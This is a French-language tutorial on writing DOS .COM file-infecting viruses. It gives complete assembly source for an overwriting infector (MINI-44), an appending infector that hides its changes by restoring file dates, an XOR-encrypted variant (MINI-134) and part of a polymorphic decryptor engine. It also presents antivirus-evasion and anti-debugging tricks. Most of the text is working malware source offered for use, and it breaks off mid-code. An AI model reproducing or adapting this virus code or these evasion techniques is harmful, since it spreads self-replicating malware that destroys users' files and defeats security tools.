

VIRUS infecteurs de fichier ".COM"
.model small ; Définit le modèle de mémoire.
.code ; Début du code.
FNAME EQU 9EH ; FNAME contiendra le nom du fichier résultant de la fonction
; de recherche.(Emplacement 9Eh dans la zone DTA)
org 100h ; Offset de chargement (emplacement mêmoire ,juste aprés le PSP).
start: ; Ici on place un point appelé 'start'.(=> label start)
;On pourra y revenir ou y faire référence plus tard.
mov ah,4eh ;Place la valeur 4Eh dans le registre AH
;(c'est la fonction de l'interruption 21h
;du DOS qui permet de chercher un fichier).
;Pour 4eh , le 'h' correspond à Hexadécimal.
mov dx,offset COM_FILE ;Place dans DX la chaîne ASCII '*.com' définie
;plus bas qui permettra au DOS de chercher
;les fichiers .COM grâce à la fonction 4Eh.
Int 21h ;Exécute la recherche et formate un bloc de
;43 octets dans la DTA(Disk Transfert Area)
;pour y placer le nom du fichier trouvé, sa
;position(pour savoir où continuer la recherche
;grâce à la fonction 'search next': 4Fh), ses
;attributs, la date et l'heure de sa dernière
;modification, et sa taille.
;Le nom du fichier trouvé est placé au 158 ème octet de la DTA (fname).
search_lp:
jc done ;Si aucun fichier n'est trouvé, aller au
;label 'done'.
mov ax,3d01h ;Indique au DOS qu'on veut ouvrir le fichier qu'on a trouvé.
; AH = 3D AL = 01 => AX=3D01H
mov dx,fname ;Pointeur vers le nom de fichier trouvé par
;la fonction de recherche 'search first'.
int 21h ;Lance l'interruption 21h.
xchg ax,bx ;Intervertit AX et BX (le numéro que le DOS
;a attribué à ce fichier pour l'identifier).
;(le FILE HANDLE).
mov ah,40h ;Place la valeur 40h dans le registre AH
;(40h = Fonction du DOS qui permet d'écrire
;dans un fichier).
mov cl,[ender-start] ;Réécrit le virus(compris entre le label
;'ender' et le label 'start') par dessus
;le code du fichier hôte
mov dx,100h ;en recopiant à partir de l'adresse 100h
;(début du virus).
int 21h ;Appel de l'interruption 21h du DOS pour
;lancer la réécriture.
mov ah,3eh ;Indique " Fermer le fichier infecté. "
int 21h ;Ferme le fichier.
mov ah,4fh ;Appel de la fonction 4Fh('search next')
;qui permet de continuer la recherche des
;fichiers .COM dans le répertoire courant.
int 21h
jmp search_lp ;Retourne au label 'search' pour continuer
;la recherche.
done:
ret ;Termine le programme.
COM_FILE db '*.com',0 ;Place la chaîne de caractère '*.com'
;dans COM_FILE (COM_FILE="*.COM")
;C'est le type de fichier qu'on recherche.
ender: ;Label qui sert à déterminer la taille
;du virus.
end start ;Fin du code.
Le code assembleur : MINI-44.ASMParamètres d'entrée : AH=4Eh (reçoit le numéro de la fonction).
CL=Attribut de fichier à utiliser dans la recherche
(c'est pas indispensable).
DS:DX=Pointeur vers une chaîne ASCII ou un nom de fichier
(Dans notre virus ça sert a spécifier la recherche '*.com' et à stocker
le résultat de la recherche).
Renvoie: AX=0 si pas d'erreur, sinon, AX=n°de l'erreur.
Cliquez ici pour téléchargez un exemple d'utilisation.
Voir aussi la photo_ecran.
Le nom du fichier trouvé se situe dans la partie DTA du PSP.
B)La fonction 4Fh(search next=>Recherche du fichier suivant).
Paramètres d'entrée: AH=4Fh
Renvoie : AX=0 si pas d'erreur, sinon, AX=n°de l'erreur.
Fonction: Permet de continuer la recherche commencée à l'aide de la fonction 'search first'.
Attention! entre deux appels les informations contenues dans la DTA ne doivent pas être modifiées .
C)La fonction 3Dh(Ouverture de fichier)
Paramêtres d'entrée: AH=3Dh
AL=mode d'ouverture(0=lecture seule, 1=écriture, 2=lecture/écriture)
DS:DX=Pointeur vers une chaîne ASCII ou un nom de fichier.
Renvoie: AX contient le FILE HANDLE si aucune erreur, sinon, AX=Code d'erreur.
D)La fonction 3Eh(Fermeture de fichier)
Paramêtres d'entrée: AH=3Eh
BX=File Handle du fichier à fermer.
Renvoie: AX= code d'erreur si la fermeture échoue.
E)La fonction 40h(Ecriture vers un fichier)
Paramètres d'entrée: AH=40h
BX=File Handle du fichier à fermer.
CX=Nombre de bytes à écrire.
DS:DX=Pointeur sur le buffer dont on tire les données.
Renvoie: AX= code d'erreur si l'écriture échoue.
AX= Nombre d'octets écrits si aucune erreur.
Le segment : L'offset
Allez aussi jeter un petit coup d'oeil sur : ce site sur la programmation en assembleur pour de plus amples informations. Explication du PSP : Le PSP ... ça ressemble à quoi ce truc ?? Offset: Taille : Description: 0h 2 Instruction Int 20h (Permet de retourner sous DOS) 2h 2 Adresse du dernier segment alloué (espace disponible) 4h 1 Réservé 5h 5 Far call vers le vecteur d'interruption 21h Ah 4 Vecteur d'interruption 22h (Terminal address) Eh 4 Vecteur d'interruption 23h (CTRL+BREAK handler address) 12h 4 Vecteur d'interruption 24h (Critical error handler address) 16h 22 Réservé 2Ch 2 Segment de l'environnement DOS (path , set , etc) 2Eh 34 Réservé 50h 3 Int 21h / instruction RETF 53h 9 Réservé 5Ch 16 File Control Block 1 (premiere ligne de commande) 6Ch 20 File Control Block 2 (deuxième ligne de commande) 80h 128 DTA (Zone de transfert de données). 100h ---> Le programme .COM commence à partir de cette adresse.Attention , le premier octet de la DTA indique sa longueur. (les données sont en 81h)
Par exemple :
- l'interruption 20h servait à retourner sous dos , mais maintenant on utilise :
' mov ah,4ch
int 21h '
Remarquez que vous pouvez toujours utiliser l'interruption 20h .
- en offset 5ch et 6ch , le FCB étaient utilisés dans les versions 1.xx du MS-DOS.
La taille d'un programme .COM est limitée , ne l'oubliez pas , sans quoi vous pouvez altérer le PSP et tout faire planter .000h .-----------------.
PSP
100h .-----------------.
Saut vers virus
103h .-----------------.
Corp du programme hôte
xxxh .-----------------.
corp du Virus
yyyh .-----------------.
.model tiny ; Model de mémoire
.code ; Début du code
org 100h ; Début du fichier .COM
MAIN: db 0e9h,00h,00h ; Jmp START_VIRUS
START_VIRUS proc near ; Début réel du virus
call FIND_OFFSET
; Calculate change in offset from host program.
FIND_OFFSET:
pop bp ; BP contient le Pointeur d'Instruction (registre IP)
sub bp, offset FIND_OFFSET ; Calcule l'adresse actuelle dans BP
; Restore original bytes to the infected program.
lea si,[bp+ORIG_START] ; Restaure les 3 bytes d'origine.
; Charge l'adresse mémoire [bp+ORIG_START]
; dans le registre 16 bits SI ...
mov di,100h ; vers 100h, début du fichier
push di ; Copie 3 bytes
movsw
movsb
; Change the DTA from the default so FINDFIRST/FINDNEXT won't destroy
; original command line parameters.
lea dx,[bp+NEW_DTA] ; Pointe vers la nouvelle DTA.
call SET_DTA ; Change
; DOS Findfirst / Findnext services
FINDFIRST: mov ah,4eh ; Demande au DOS de trouver un fichier
lea dx,[bp+COM_MASK] ; Cherche tous les fichiers .COM
xor cx,cx ; Attribu 0 (rien)
FINDNEXT: int 21h ; Demande au DOS de chercher
jc QUIT ; Quitter si erreurs
; ou plus de fichiers
; Si j'arrive ici , c'est que j'ai trouvé une victime. Ouvre le fichier et vérifie
; s'il n'est pas déja infecté.
mov ax,3d00h ; DOS Open file, read only
lea dx,[bp+NEW_DTA+30] ; Pointer vers le fichier qu'on a trouvé
int 21h ; Le DOS pointe.
xchg ax,bx ; Sauvegarde les attribus du fichier en BX
; Vérifie si on a déja infecté ce fichier en cherchant à la fin la présence du code viral
mov ah,3fh ; DOS Read file
lea dx,[bp+ORIG_START] ; Sauve l'entête d'origine
mov cx,3 ; Lit les 3 premiers bytes
int 21h ; Demande au dos de lire
mov ax,word ptr [bp+NEW_DTA+26] ; met la taille du fichier an AX
mov cx,word ptr [bp+ORIG_START+1] ; Jmp offset
add cx,END_VIRUS-START_VIRUS+3 ; Met la taille du virus en CX
cmp ax,cx ; compare la taille du virus avec la taille
jnz INFECT_COM ; du fichiers si c'est pas égale on infecte.
mov ah,3eh ; autrement ferme le fichier
int 21h ; et essaye sur un autre fichier
mov ah,4fh ; chercher un autre fichier
jmp short FINDNEXT ; saute vers FINDNEXT
; Restore default DTA and pass control back to original program.
; Call any activation routines here.
QUIT: mov dx,80h ; Restaure la DTA d'origine.
call SET_DTA ; restaure.
retn ; Fin du virus et début du programme d'origine
; Remember, DI holding
; 100h was pushed on the stack.
;*** Subroutine INFECT_COM ***
INFECT_COM:
; Met l'attribut du fichier en Normal , de cette manière on peut écrire :)
mov ax,4301h ; Demande au DOS de changer les attribus
xor cx,cx ; Aucun attribu (XOR CX,CX = MOV CX,0)
lea dx,[bp+NEW_DTA+30] ; Pointe vers le nom du fichier en DTA
int 21h ; Appel le DOS pour pointer
; Calculate jump offset for header of victim so it will run virus first.
mov ax,word ptr [bp+NEW_DTA+26] ; Met la taille du fichier en AX
sub ax,3 ; Soustraire 3 à AX
mov word ptr [bp+JMP_OFFSET],ax ; Store new offset
; Close the file and reopen it for read/write. BX still holds file handle.
mov ah,3eh ; Demande au DOS de fermer le fichier
int 21h ; Ferme le fichier
mov ax,3d02h ; Demande ouvrir le fichier Lecture/Ecriture
int 21h ; Le DOS ouvre le fichier
xchg ax,bx ; Put file handle in BX
; Write the new header at the beginning of the file. (Nouvel entête de 3 bytes)
mov ah,40h ; Demande au dos d'ecrire dans le fichier
mov cx,3 ; Ecrit trois bytes
lea dx,[bp+HEADER] ; Pointe vers les 3 bytes à écrire
int 21h ; Ecrit
; Move to end of file so I can append the virus to it.
mov al,2 ; Select end of file
call FILE_PTR ; Va à la fin du fichier
; Append the virus to the end of the file. (virus placé à la FIN du fichier)
mov ah,40h ; Fonction ouvrir le fichier
mov cx,END_VIRUS-START_VIRUS ; Met le taille du virus en CX
lea dx,[bp+START_VIRUS] ; Démarre du début du virus
int 21h ; Ouvre
; Restore the file's original timestamp and datestamp. These values were
; stored in the DTA by the Findfirst / Findnext services.
mov ax,5701h ; Fonction Date et heure
mov cx,word ptr [bp+NEW_DTA+22] ; restaure l'heure
mov dx,word ptr [bp+NEW_DTA+24] ; Restaure la date
int 21h ; Execution !
; Restore original file attributes.
mov ax,4301h ; Fonction changer les attributs
mov cx,word ptr [bp+NEW_DTA+21] ; Prend les attributs d'origine du fichier
lea dx,[bp+NEW_DTA+30] ; Pointe vers le nom du fichier
int 21h ; Appel le DOS
; Lastly, close the file and go back to main program.
mov ah,3eh ; DOS Ferme fichier
int 21h ; Ferme
jmp QUIT ; Ok , c'est fini.
;*** Subroutine SET_DTA ***
SET_DTA proc near
mov ah,1ah ; DOS change la DTA
int 21h ; Changer
retn ; Retourner
SET_DTA endp
;*** Subroutine FILE_PTR ***
FILE_PTR proc near
mov ah,42h ; DOS change le pointeur pour Lecture/Ecriture
xor cx,cx ; Offset = 0
cwd ; xor dx,dx ==> DX=0
int 21h ; Appel le DOS
retn ; Retourner d'où on m'a appelé
FILE_PTR endp
; This area will hold all variables to be encrypted
COM_MASK db '*.com',0 ; On cherche les fichier avec l'extention .COM
ORIG_START db 0cdh,20h,0 ; Entête du fichier infecté
; Les 3 fameux Bytes.
HEADER db 0e9h ; commande de saut pour le nouvel entête
START_VIRUS endp
END_VIRUS equ $ ; Marque la fin du fichier
; (pour calculer sa taille)
; This data area is a scratch area and is not included in virus code.
JMP_OFFSET dw ? ; Saut pour le nouvel header
NEW_DTA db 43 dup(?) ; Nouvelle localisation de la DTA
end MAIN
Le code assembleur : 203.asmExemple en reprenant le code précédent :
FIND_OFFSET:
pop bp ; BP holds current IP
Puis on insert des trucs inutiles :
inc si ; Incrémenter SI (si=si+1)
push ax ; Empile AX
nop ; Totalement Inutile => No OPerand
dec si ; Décrémente SI (si=si-1)
mov al,206 ; al=11001110b
mov ah,4 ; ah=00000100b
; ici ax=1234 (AH est la partie haute de AX et AL est sa partie basse)
sub ax,1234 : Décrémente ax de 1234 (ax=0 maintenant)
pushf ; Empile le flag
nop ; Toujours inutile (ne rien faire)
popf ; Dépiler le flag
pop ax ; Dépile AX
Jusqu'ici !
A ce stade le programme a été modifié mais ça ne change absolument rien à son fonctionnement.
sub bp, offset FIND_OFFSET ; Calculate net change
; Change BP to start of
; virus code
; Restore original bytes to the infected program.
On va ajouter des NOP par alternances.
lea si,[bp+ORIG_START] ; Restore original 3 bytes
nop ; Non OPerand
mov di,100h ; to 100h, start of file
nop ; Non OPerand
push di ; Copy 3 bytes
nop ; Non OPerand
movsw
nop ; On ajoute un dernir NOP pour le fun
movsb
Bien entendu , les antivirus évolués
ne vont pas tomber dans le piège ,ils vont ignorer les NOP et les
instructions qui s'annulent pour pouvoir y voir plus clair , mais ça
suffit pour dérouter beaucoup d'antivirus et , par la même occasion,
pour vous montrer le principe de base du polymorphisme.* Désactivation des interruptions via le controleur 8259. IN AL,21 ; Lecture du port 21 en AL OR AL,02 ; ou AL,02 OUT 21,AL ; Ecrit al sur port 21 * Désactivation du clavier. (A utiliser avant d'autres astuce anti debugging) MOV al,02 OUT 21h,AL ; Désactive le clavier * Réactive le clavier. MOV al,00 OUT 21h,al ; Réactive le clavier (faudra bien) * Vérifier si le programme est ralenti par un débugger en arrière-plan. SUB AX,AX STI MOV DS,AX MOV AH,[046C] ; Timer système. On récupère l'heure actuelle. retour: MOV AL,[046C] ; Encore une fois CMP AL,AH ; Même heure ? JZ retour ; (si un debugger analyse votre code il tourne en rond)Le debugger ralentit le code. En comparant le timer très rapidement il ne doit pas y avoir de différence , sinon c'est qu'on analyse le code .
Ou tout simplement ceci: MOV CX,100 ; C'est parti pour 100 boucles ... stop: INT 3 ; arrête le debugger ici LOOP STOP ; Continu la boucle
Anti_debugger: MOV CX,100 Clavier_off: ; 100 boucles ! MOV al,02 OUT 21h,al ; Désactive le clavier INT 3 ; Stop le debugger LOOP Clavier_off MOV al,00 OUT 21h,al ; Réactive le clavierIci , on désactive le clavier et on arrête le débugger.
* The DIV Trap (Division par 0). Start: mov ax, offset Continue ; AX = offset de 'Continue' mov dx, cs ; Copie Code Segment dans DX xor bx, bx ; BX = 0 mov cx, bx ; mov es, bx ; Pointe ES sur BX (0) cli ; CLI (Clear Interrupt) i=0 xchg ax, es:[bx] ; Echange AX avec l'octet pointé ES:[BX] xchg dx, es:2[bx] ; Echange DX avec l'octet pointé ES:[BX+2] sti ; Restaure l'interruption i=1 div cx ; ICI , si on est sous un debugger (TD) on plante (division par 0) Continue: cli xchg ax, es:[bx] xchg dx, es:2[bx] sti Suite du programme ...Un autre petit exemple montre comment 'cacher' une clef.
* Saut au milieu d'une instruction. mov ax,0FE05h ; AX = FE05h (05FEh = ADD AX !) jmp $-2 ; AX = EA03h (saut en arrière vers ADD AX) add ah,03Bh ; AX = 2503h ! (mentionné nulle part ! => notre clef secrète)Explication :
cs:0100 B805FE mov ax,FE05 cs:0103 EBFC jmp 0101On charge AX avec le valeur FE05.
* Gestion de la pile. PUSH AX ; On met AX dans la pile POP AX ; On sort AX de la pile DEC SP ; Décrémente le pointeur SP (Stack Pointeur) DEC SP ; " " POP BX ; Ici , BX doit pointer vers AX dans la pile. CMP AX,BX ; Exact ? (AX = BX ?) JNE CODE_IS_TRACED ; Non , on doit réagire , on est tracé :o(Explication : Quand vous tracez le code avec l'int 1 , les 6 octets au dessous de SP sont écrasés avec IP , CS et le Flag .
CMP BP,0 ; Bp initialisé à 0 (en gros -> on nous debuge ?) JNE CONTINUE ; Non , tout va bien , on continue. JMP $ ; Oui ! on nous trace ; on plante immediatement !Pièges interressants : TRAP TO DEBUGGER ou ce site : http://vx.netlux.org/lib/vbj01.html
Un décrypteur très simple et très petit ça ressemble à ça :
MOV SI,offset données_cryptées ;Pointe vers les données cryptées
MOV CX,10 ;Compteur de boucle à 10 octets (for cx=1 to 10)
;On rentre dans la boucle pour 10 tours ...
main_loop: XOR BYTE PTR [SI],55 ;XOR (décrypte avec la clée 55)
INC SI ;incrémente le compteur (prochain octets)
LOOP main_loop ;retourne à main_loop (goto main_loop)
Vous voyez , c'est extrêmement simple .Fonction XOR (ou exclusif) A XOR B = C <==> C XOR B = A) 0 0 0 0 1 1 A : Caractère d'origine 1 0 1 B : Clef de cryptage 1 1 0 C : Caractère cryptéOn pourrait même envisager de changer la clé à chaque octet , ou tout les n octets.
Virus crypté :
Nom de code : MINI-134 Evolution
.model small ; Définit le modèle de mémoire.
.code ; Début du code.
FNAME EQU 9EH ; Nom du fichier résultant de la fonction de recherche.
org 100h ; Offset de chargement (emplacement mêmoire).
start: ; Ici on place un point appelé 'start'.(=> label start)
mov cx,[ender - debut] ; Taille du code crypté.
mov si,offset debut ; SI pointe vers 'debut:'
mov ah,byte ptr [si] ; AH contient le byte pointé par SI (le NOP , just après DEBUT)
xor ah,90h ; Récupère la clef en AH
decrypt:
xor byte ptr [si],ah ; ici on décrypte avec la clef.
inc si ; Déplace le pointeur.
loop decrypt
; Quand tout est décrypté‚ on est ici.
; Avant d'être décrypté , seul les lignes précédentes étaient compréhensibles.
debut:
nop ; 90h en code machine. Sert de réference pour décrypter.
mov ah,4ah ; Réajustement de la taille d'un bloc de mémoire
mov bx,[ender-start] ; taille.
int 21h
mov ah,48h ; Allocation de mêmoire
int 21h ; Le Carry est à 1 si erreur (ici pas utilisé).
mov byte [ds:6ch],ax ; Met l'adresse du segment allou‚ dans le PSP ,
; dans le File Control Block 2 (why not ?)
mov es,ax ; Pointe ES vers le segment alloué
mov cx,bx ; Initialise le compteur.
xor si,si ; Pointeur initialisé à 0.
copie:
mov bl,byte ptr [start+si]
cmp si,offset debut-100h ; On est sur la clef ? (-100h car PSP en memoire)
je crypt ; Oui , on est sur la clef, on va crypter ...
mov byte ptr es:[si],bl ; Non , on copie simplement.
inc si ; Déplace le pointeur.
loop copie
sortie_crypt:
mov ah,4fh ; Appel de la fonction 4Fh('search next')
; qui permet de continuer la recherche des
; fichiers .COM dans le répertoire courant.
int 21h
mov ah,4eh ; Place la valeur 4Eh dans le registre AH
; (c'est la fonction de l'interruption 21h
; du DOS qui permet de chercher un fichier).
; Pour 4eh , le 'h' correspond à Hexadécimal.
mov dx,offset COM_FILE ; Place dans DX la chaîne ASCII '*.com' définie
; plus bas qui permettra au DOS de chercher
; les fichiers .COM grâce à la fonction 4Eh.
Int 21h ; Execute la recherche et formate un bloc de
; 43 octets dans la DTA(Data Transfert Area)
; pour y placer le nom du fichier trouvé, sa
; position(pour savoir où continuer la recherche
; grâce à la fonction 'search next': 4Fh), ses
; attributs, la date et l'heure de sa dernière
; modification, et sa taille.
search_lp:
jc done ; Si aucun fichier n'est trouvé, aller au
; label 'done'.
mov ax,3d01h ; Indique au DOS qu'on veut ouvrir le fichier qu'on a trouvé.
mov dx,fname ; Pointeur vers le nom de fichier trouvé par
; la fonction de recherche 'search first'.
int 21h ; Lance l'interruption 21h.
xchg ax,bx ; Déplace de AX vers BX le numéro que le DOS
; a attribué à ce fichier pour l'identifier
; (le FILE HANDLE).
mov ah,40h ; Place la valeur 40h dans le registre AH
; (40h = Fonction du DOS qui permet d'écrire
; dans un fichier).
mov cx,[ender-start] ; Réécrit le virus(compris entre le label
; 'ender' et le label 'start') par dessus
; le code du fichier hôte
push ds ; On sauvegarde le segment
mov ds,byte [ds:6ch] ; Pointe vers le segment ou se trouve le virus en crypté.
mov dx,0 ; Offset 0
int 21h ; Appel de l'interruption 21h du DOS pour
; lancer la réécriture.
pop ds ; on restaure le segment , sans quoi ... booom!
mov ah,3eh ; Indique " Fermer le fichier infecté. "
int 21h ; Ferme le fichier.
mov ah,4fh ; Appel de la fonction 4Fh('search next')
; qui permet de continuer la recherche des
; fichiers .COM dans le répertoire courant.
int 21h
jmp search_lp ; Retourne au label 'search' pour continuer
; la recherche.
done:
mov ah,49h ; Avant de sortir on va quand même liberer la
; mêmoire allouée :o)
mov es,byte [ds:6ch] ; Elle est la ...
int 21h
ret ; Termine le programme.
crypt:
in ax,40h ; On prend le timer pour avoir un nombre 'aléatoire'
boucle:
mov bl,byte ptr [start+si]
xor bl,al ; Crypte BL avec la clef.
mov byte ptr es:[si],bl ; Puis met le dans la mêmoire allouée.
inc si ; Déplace le pointeur.
loop boucle
jmp sortie_crypt
COM_FILE db '*.com',0 ; Place la chaîne de caractère '*.com'
; dans COM_FILE (COM_FILE="*.COM")
ender: ; Label qui sert à déterminer la taille
; du virus.
end start ; Fin du code.
Code source de mini-134 évolutionA)La fonction 48h(Allocation de mémoire).
Paramètres d'entrée: AH=48h
BX=Nombre de paragraphes 16-byte à allouer
Renvoie : C : Carry à 1 si echec
AX=Segment mémoire alloué (Rappel : memoire [SEGMENT:offset])
BX=Taille disponible (si taille demandée trop grande (Carry=1))
B)La fonction 49h(Libération de mémoire)
Paramêtres d'entrée: AH=49h
BX=Segment du block alloué à libérer
Renvoie: AL= 0 si ca s'est bien passé.
C)La fonction 4Ah(Réajustement de la taille mémoire)
Paramêtres d'entrée: AH=4Ah
ES=Bloque mémoire à modifier
BX=Nouvelle taille du bloque mémoire
Renvoie : C : Carry à 1 si echec
AL=Code d'erreur si chec
BX=Taille disponible (si taille demandée trop grande (Carry=1))
D)Port Entrée/Sortie 40h - Impulsion système
Le timer 0 s'utilise pour la synchronisation du système.La procédure de copie : copie: mov bl,byte ptr [start+si] cmp si,offset debut-100h ; On est sur la clef ? (-100h car PSP en memoire) je crypt ; Oui , on est sur la clef, on va crypter ... mov byte ptr es:[si],bl ; Non , on copie simplement. inc si ; Déplace le pointeur. loop copie sortie_crypt:Dans cette boucle , on copie le virus dans le bloque mémoire allouée pointée par ES:[SI].
crypt: in ax,40h ; On prend le timer pour avoir un nombre 'aléatoire' boucle: mov bl,byte ptr [start+si] xor bl,al ; Crypte BL avec la clef. mov byte ptr es:[si],bl ; Puis met le dans la mêmoire allouée. inc si ; Déplace le pointeur. loop boucle jmp sortie_cryptPuis on continue (avec la même clef de cryptage) à contaminer les autre fichiers .COM.
Avant polymorphisme :
start:
mov cx,[ender - debut]
mov si,offset debut ; Pointe vers debut (6 lignes de code plus bas).
mov ah,byte ptr [si]
xor ah,90h
decrypt:
xor byte ptr [si],ah ; loop revient ici
inc si
loop decrypt ; Retourne 2 lignes de code plus haut.
debut:
nop
...
Après polymorphisme :
start:
mov cx,[ender - debut]
nop
mov si,offset debut ; Devrait pointer vers debut (6 lignes de code plus bas).
nop
mov ah,byte ptr [si]
nop
xor ah,90h
nop
decrypt:
xor byte ptr [si],ah ; Ici , c'est plus 'debut' ! il se trouve plus bas maintenant.
nop ; C'est pas non plus ici que doit revenir le loop !
inc si
loop decrypt ; Retourne 2 lignes plus haut. (normalement c'est sur 'xor byte ...').
nop
debut:
nop
...
Toutes les adresses sont faussées ! Le programme plante.Exemple: cs:100 call position ; Stoque l'adresse en cours dans la pile (ici 100) position: cs:103 pop di ; Met 100 dans DI cs:104 add di,[decrypt-position] ; Ajuste DI (on ne veut pas retourner en 100 mais en 107) decrypt: cs:107 xor byte ptr [si],ah ; La boucle commence ici cs:109 inc si ; On fait notre blabla ... cs:10A jmp di ; retourne en 107Attention ! ce code crée une boucle infinie entre 107 et 10A (Mettez une condition de sortie).
exemple :
--> peut s'écrire -->
mov ah,12h
mov al,34h
OU
mov ah,34h
mov al,12h
xchg ah,al
mov ax,1234h OU
mov ax,1262h
xor ax,56h
OU
mov ax,091Ah
shl ax,1
ETC
Au plus notre moteur aura une vaste panoplie de fonctions , au plus notre virus sera polymorphe.D'abord , on examine le décrypteur de base .... start: mov cx,[ender - debut] mov si,offset debut mov ah,byte ptr [si] xor ah,90h decrypt: xor byte ptr [si],ah inc si loop decrypt debut: nop ...Liste des registres utilisés :
start: mov al,12h mov cx,[ender - debut] mov bh,56 xor bh,bl xchg bl,bh mov si,offset debut dec al mov ah,byte ptr [si] mov bx,56h xor ah,90h shl bx,5 add bh,ah decrypt: out 2f8h,al xor byte ptr [si],ah stos inc si loop decrypt debut: nop ...Je crois qu'on peut dire qu'il a changé de tête et que ça commence à devenir dur de trouver une chaine d'identification fiable...
.model small ; Definit le modèle de mémoire.
.code ; Début du code.
FNAME EQU 9EH ; Nom du fichier résultant de la fonction de recherche.
org 100h ; Offset de chargement (emplacement mêmoire).
start: ; Ici on place un point appele 'start'.(=> label start)
call uncrypt ; Comme son nom l'indique ...
; Quand tout est decrypté on est ici.
debut:
nop ; 90h sert de réference pour décrypter.
mov ah,4ah ; Demande une allocation mémoire
mov bx,[ender-start] ; taille.
int 21h
mov ah,48h ; Allocation de mêmoire
int 21h ; Le Carry est … 1 si erreur (ici pas utilisé).
mov byte [ds:6ch],ax ; Met l'adresse du segment allou‚ dans le PSP ,
; dans le File Control Block 2
mov es,ax ; Pointe ES vers le segment allou‚
mov cx,bx ; Initialise le compteur.
xor si,si ; Pointeur initialis‚ … 0.
copie:
mov bl,byte ptr [start+si]
cmp si,offset debut-100h ; On est sur la clef ? (-100h car PSP en memoire)
je crypt ; Oui , on est sur la clef, on va crypter ...
mov byte ptr es:[si],bl ; Non , on copie simplement.
inc si ; Déplace le pointeur.
loop copie
sortie_crypt:
call nouveau_decrypteur ; Une fois le corp du virus crypté
; on fabrique un nouveau decrypteur.
mov ah,4fh ;Appel de la fonction 4Fh('search next')
;qui permet de continuer la recherche des
;fichiers .COM dans le répertoire courant.
int 21h
mov ah,4eh ;Place la valeur 4Eh dans le registre AH
;(c'est la fonction de l'interruption 21h
;du DOS qui permet de chercher un fichier).
;Pour 4eh , le 'h' correspond à Hexadécimal.
mov dx,offset COM_FILE ;Place dans DX la chaîne ASCII '*.com' définie
;plus bas qui permettra au DOS de chercher
;les fichiers .COM grâce à la fonction 4Eh.
Int 21h ;Execute la recherche et formate un bloc de
;43 octets dans la DTA(Data Transfert Area)
;pour y placer le nom du fichier trouvé, sa
;position(pour savoir où continuer la recherche
;grâce à la fonction 'search next': 4Fh), ses
;attributs, la date et l'heure de sa dernière
;modification, et sa taille.
search_lp:
jc done ;Si aucun fichier n'est trouvé, aller au
;label 'done'.
mov ax,3d01h ;Indique au DOS qu'on veut ouvrir le fichier qu'on a trouvé.
mov dx,fname ;Pointeur vers le nom de fichier trouvé par
;la fonction de recherche 'search first'.
int 21h ;Lance l'interruption 21h.
xchg ax,bx ;Déplace de AX vers BX le numéro que le DOS
;a attribué à ce fichier pour l'identifier
;(le FILE HANDLE).
mov ah,40h ;Place la valeur 40h dans le registre AH
;(40h = Fonction du DOS qui permet d'écrire
;dans un fichier).
mov cx,[ender-start+50] ;Réécrit le virus(compris entre le label
;'ender' et le label 'start') par dessus
;le code du fichier hôte
push ds ; On sauvegarde le segment
mov ds,byte [ds:6ch]
mov dx,0
int 21h ;Appel de l'interruption 21h du DOS pour
;lancer la réécriture.
pop ds ; on restaure le segment , sans quoi ... booom!
mov ah,3eh ;Indique " Fermer le fichier infecté. "
int 21h ;Ferme le fichier.
mov ah,4fh ;Appel de la fonction 4Fh('search next')
;qui permet de continuer la recherche des
;fichiers .COM dans le répertoire courant.
int 21h
jmp search_lp ;Retourne au label 'search' pour continuer
;la recherche.
done:
mov ah,49h ; Avant de sortir on va quand même liberer la
; mêmoire allouée :o)
mov es,byte [ds:6ch] ; Elle est la ...
int 21h
ret ; Termine le programme.
crypt:
in ax,40h ; On prend le timer pour avoir un nombre 'aléatoire'
boucle:
mov bl,byte ptr [start+si]
xor bl,al ; Crypte BL avec la clef.
mov byte ptr es:[si],bl ; Puis met le dans la mêmoire allouée.
inc si ; Déplace le pointeur.
loop boucle
jmp sortie_crypt
rand: ; Generateur pseudo aleatoire permettant
in al,40h ; de determiner quelle mutation choisir.
cmp al,55h ; Il sort soit 1 soit 2 soit 3.
jb plus_de_55h
mov cl,1 ; 00 > 85 > 170
ret ; cl=1 cl=2 cl=3
plus_de_55h:
cmp al,0aah
jb plus_de_AAH
mov cl,2 ; cl=2
ret
plus_de_AAh:
mov cl,3 ; cl=3
ret
ret
nouveau_decrypteur:
;----------------------------------------------------------------------------
;- MOV CX,XX (ajuster si modif) -
;----------------------------------------------------------------------------
call rand ; chiffre 'aleatoire' entre 1 et 3
cmp cl,1 ; Si cl=1 utiliser 'MOV CL,1Ah'; 'MOV CH,03h'
je instr_01
cmp cl,2
je instr_02 ; Si cl=2 utiliser 'MOV AX,xxh' ; 'XCGH AX,CX'
mov byte ptr es:[si],0B9h ; Sinon on utilise 'MOV CX,xxh'.
inc si
mov byte ptr es:[si],1Fh ; Taille du corp du virus. a ajuster si modif !
inc si
mov byte ptr es:[si],03h ; " "
jmp suite_01
instr_01:
mov byte ptr es:[si],0B1h ; mov cl,xxh
inc si
mov byte ptr es:[si],1Fh ; " "
inc si
mov byte ptr es:[si],0B5h ; mov ch,xxh
inc si ; " "
mov byte ptr es:[si],03h
jmp suite_01
instr_02:
mov byte ptr es:[si],0B8h ; mov ax,xxh
inc si
mov byte ptr es:[si],1Fh ; " "
inc si
mov byte ptr es:[si],03h ; " "
inc si
mov byte ptr es:[si],91h ; xchg ax,cx
suite_01:
inc si
;----------------------------------------------------------------------------
;- MOV SI,0103h -
;----------------------------------------------------------------------------
call rand
cmp cl,1
je instr_11 ; Si cl=1 utiliser "MOV SI,100h","ADD SI,0003h"
cmp cl,2
je instr_12 ; Si cl=2 utiliser "POP DI","MOV SI,DI","PUSH DI"
